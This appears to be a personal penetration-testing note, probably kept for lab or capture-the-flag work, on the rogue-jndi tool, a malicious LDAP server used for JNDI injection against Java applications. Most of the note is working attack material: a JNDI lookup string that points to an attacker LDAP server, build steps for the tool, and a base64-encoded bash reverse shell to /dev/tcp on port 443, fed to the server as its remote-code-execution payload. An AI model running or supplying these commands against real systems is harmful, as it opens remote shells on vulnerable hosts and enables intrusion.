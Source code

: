 # ldap for jndi attack

**Author:** Julien Bongars  
**Date:** 2025-09-25 09:05:14
**Path:** notes/infiltration/general/ldap-for-jndi-attack.md

---

## Description

link: https://github.com/veracode-research/rogue-jndi

A malicious LDAP server for JNDI injection attacks.

Description
The project contains LDAP & HTTP servers for exploiting insecure-by-default Java JNDI API.
In order to perform an attack, you can start these servers locally and then trigger a JNDI resolution on the vulnerable client, e.g.:

```java
InitialContext.doLookup("ldap://your_server.com:1389/o=reference");
```

It will initiate a connection from the vulnerable client to the local LDAP server. Then, the local server responds with a malicious entry containing one of the payloads, that can be useful to achieve a Remote Code Execution.

## Usage

```bash
# installation
git clone https://github.com/veracode-research/rogue-jndi ~/rogue-jndi
cd ~/rogue-jndi
mvn package

# get help
java -jar target/RogueJndi-1.0.jar -h

YOURIP="10.10.14.147"
COMMAND="bash -c 'bash -i >& /dev/tcp/${YOURIP}/443 0>&1'"
COMMAND_B64="$(echo "$COMMAND" | base64)"
INJECTION="bash -c {echo,${COMMAND_B64}}|{base64,-d}|{bash,-i}"

java -jar ./target/RogueJndi-1.1.jar \
  --command "$INJECTION" \
  --hostname "$YOURIP" \
  --ldapPort 1389 \
  --httpPort 8000
```
